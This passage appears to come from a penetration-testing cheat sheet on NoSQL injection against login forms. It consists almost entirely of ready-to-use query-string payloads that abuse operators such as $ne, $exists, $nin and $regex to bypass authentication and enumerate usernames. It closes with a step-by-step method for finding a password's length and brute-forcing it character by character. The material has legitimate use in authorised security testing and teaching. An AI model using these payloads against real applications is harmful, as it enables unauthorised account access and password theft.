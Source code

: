     # $exists: Exists in the database
    username[$exists]=true&password[$exists]=true

    # $in: Include in array
    username[$in]=[admin]&password[$ne]=xyz

    # $nin: Not include
    username[$nin][admin]=admin&password[$ne]=xyz
    # If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
    username[$nin][]=admin&password[$ne]=xyz
    # If more users are found, we can exclude the user.
    username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

    # $gt: Greater than
    username[$gt]=s&password[$gt]=s
    # $lt: Lower than
    username[$lt]=s&password[$lt]=s

    # Combinations
    username[$ne]=xyz&password[$regex]=.*
    username[$exists]=true&password[$ne]=xyz
    username[$ne]=xyz&password[$exists]=true
    username[$regex]=.*&password[$ne]=xyz
    username[$ne]=xyz&password[$regex]=.*
    username[$regex]=.{6}&password[$ne]=xyz
    ```

    After finding usernames, we can also obtain the passwords using the **“$regex”** operator as the following example.

    ```bash
    # Check if the password length is 7 characters.
    username=admin&password[$regex]=^.{7}$
    # If not, change 7 to 6 (or 8 or something number).
    username=admin&password[$regex]=^.{6}$
    # If the number of characters turns out to be 6, brute force the character one by one.
    username=admin&password[$regex]=^a.....$
    username=admin&password[$regex]=^s.....$
    username=admin&password[$regex]=^se....$
    username=admin&password[$regex]=^sec...$
    ```
